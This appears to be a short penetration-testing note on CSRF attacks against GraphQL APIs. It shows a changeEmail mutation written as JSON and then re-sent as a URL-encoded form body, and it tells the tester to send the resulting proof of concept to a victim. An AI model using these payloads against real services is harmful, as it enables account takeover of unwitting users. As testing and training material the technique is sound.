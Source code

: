 GraphQL can allow a CSRF attack to take place whereby an attacker creates an exploit that causes a victim's browser to send a malicious query as the victim. 

>[!info]
>POST requests that are JSON are secure as long as the content type is validated.

Alternative methods like GET or a request that uses `x-www-form-urlencoded` can be sent by a browser. Attackers can craft malicious requests to send to the API. 

Try to observe any sensitive functionality (changing email, updating account information, etc...). Attempt to change the request method to `application/x-www-form-urlencoded` either manually or by "Change request method" twice.

As an example, a standard email change request may be:

```json
{
  "query": "\n    mutation changeEmail($input: ChangeEmailInput!) {\n        changeEmail(input: $input) {\n            email\n        }\n    }\n",
  "operationName": "changeEmail",
  "variables": {
    "input": {
      "email": "attacker@test.net"
    }
  }
}
```

After changing the request method, add it back as non-JSON data:

```json
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

Which decodes to:

```json
query=
    mutation changeEmail($input: ChangeEmailInput!) {
        changeEmail(input: $input) {
            email
        }
    }
&operationName=changeEmail&variables={"input":{"email":"hacker@hacker.com"}}
```

>[!info]
>Make sure not to encode the "=" characters.

If it works successfully, send the CSRF PoC successfully to the victim, making sure to change the email to a different one that tested.




